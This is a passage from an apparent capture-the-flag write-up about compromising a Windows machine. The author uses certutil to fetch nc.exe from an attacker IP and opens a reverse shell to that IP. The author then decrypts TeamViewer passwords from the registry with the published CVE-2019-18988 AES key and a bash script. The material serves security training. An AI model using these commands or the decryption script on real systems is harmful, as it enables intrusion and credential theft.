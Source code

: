 ## Low-Privilege Shell

Let's transfer a copy of `nc.exe` from Kali Linux using `certutil.exe`.

```
# python3 exploit.py 'certutil -urlcache -split -f http://10.10.16.125/nc.exe \\windows\\system32\\spool\\drivers\\color\\cute.exe'
```

And run a reverse shell back to us.

```
# python3 exploit.py 'start \\windows\\system32\\spool\\drivers\\color\\cute.exe 10.10.16.125 4444 -e cmd.exe'
```

{% include image.html image_alt="5ac084e3.png" image_src="/c22eded2-81a5-4157-b7f5-5908ca4988d7/5ac084e3.png" %}

Bam. And the file `user.txt` is at `C:\Users\Public`.

{% include image.html image_alt="b4f1aa95.png" image_src="/c22eded2-81a5-4157-b7f5-5908ca4988d7/b4f1aa95.png" %}

## Privilege Escalation

During enumeration of this account, I noticed that TeamViewer 7 is installed and running as a service.

{% include image.html image_alt="dbd93457.png" image_src="/c22eded2-81a5-4157-b7f5-5908ca4988d7/dbd93457.png" %}

### CVE-2019-18988 - Shared AES key for TeamViewer < 14.7.1965

True enough, sensitive information about TeamViewer can be gleaned from the registry like so.

```
reg query hklm\software\teamviewer /s
```

{% include image.html image_alt="8b1989f5.png" image_src="/c22eded2-81a5-4157-b7f5-5908ca4988d7/8b1989f5.png" %}

According to this blog [post](https://whynotsecurity.com/blog/teamviewer/),

> TeamViewer stored user passwords encrypted with AES-128-CBC with they key of `0602000000a400005253413100040000` and iv of `0100010067244F436E6762F25EA8D704` in the Windows registry.


Armed with this information, I wrote a simple decryption script driven by `openssl enc` to decrypt `SecurityPasswordAES`.

<div class="filename"><span>decrypt.sh</span></div>

```shell
#!/bin/bash

ENCPASS=$1
KEY=0602000000a400005253413100040000
IV=0100010067244F436E6762F25EA8D704

echo -n $ENCPASS \
| xxd -p -r \
| openssl enc -aes-128-cbc -d -nopad -K $KEY -iv $IV; echo
```
